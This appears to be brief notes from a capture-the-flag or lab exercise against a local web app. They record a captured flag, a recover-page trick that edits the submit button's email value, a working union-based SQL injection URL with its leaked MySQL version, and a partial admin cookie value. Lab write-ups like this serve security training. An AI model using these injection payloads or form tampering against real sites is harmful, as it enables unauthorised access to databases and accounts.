 THE FLAG IS : 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

Go go http://192.168.1.59/?page=recover#
Inspect submit button element
Change email while respecting length contraints
Click submit


Help: https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/

Show MySQL version
http://192.168.1.59/index.php?page=member&id=-1+union+select+1,version()&Submit=Submit#
ID: -1 union select 1,version()
First name: 1
Surname : 5.5.44-0ubuntu0.12.04.1

I_am_admin=68934a3e945...eb05902327
